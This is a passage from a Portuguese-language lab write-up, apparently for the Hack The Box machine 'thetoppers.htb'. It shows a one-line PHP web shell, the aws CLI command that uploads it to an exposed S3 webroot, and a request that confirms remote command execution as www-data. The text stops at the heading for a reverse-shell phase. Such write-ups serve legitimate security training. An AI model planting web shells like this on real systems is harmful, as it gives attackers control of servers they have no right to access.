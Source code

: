 ## Vulnerabilidade 2: Upload de Web Shell e Execução Remota de Comandos (RCE)

Como podemos listar o conteúdo do bucket S3 que serve como webroot e o site usa PHP, podemos tentar fazer upload de um web shell PHP para obter RCE.

### 1. Explicação Didática

> Já que podemos colocar arquivos no depósito (bucket S3) e esses arquivos são servidos pelo site principal, vamos colocar um "arquivo especial" (o web shell PHP) lá. Quando acessamos este arquivo especial através do site, ele nos dá um controle remoto para executar comandos no servidor.

### 2. Explicação Técnica (Passo a Passo)

1.  **Criação do Web Shell PHP Simples:** Criamos um arquivo `shell.php` com um one-liner PHP que executa comandos passados via parâmetro GET `cmd`.

    *   **Conteúdo de `shell.php`:**
        ```php
        <?php system($_GET["cmd"]); ?>
        ```
    *   **Criar o arquivo:**
        ```bash
        echo '<?php system($_GET["cmd"]); ?>' > shell.php
        ```

2.  **Upload do Web Shell para o Bucket S3:**

    *   **Comando:**
        ```bash
        aws --endpoint-url=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb/shell.php
        ```
    *   **Explicação:**
        *   `s3 cp shell.php s3://thetoppers.htb/shell.php`: Copia o arquivo local `shell.php` para o bucket `thetoppers.htb` com o nome `shell.php` na raiz do bucket.
    *   **Resultado:** `upload: ./shell.php to s3://thetoppers.htb/shell.php`

3.  **Verificação do RCE:** Acessamos o web shell através do navegador, passando um comando para ser executado.

    *   **URL:**
        ```
        http://thetoppers.htb/shell.php?cmd=id
        ```
    *   **Resultado:** A página exibe a saída do comando `id`: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`. Isso confirma que temos RCE como o usuário `www-data`.

---

## Fase 2: Obtenção de Reverse Shell

Com RCE confirmado, o próximo passo é obter um shell interativo no servidor.

### 1. Explicação Didática

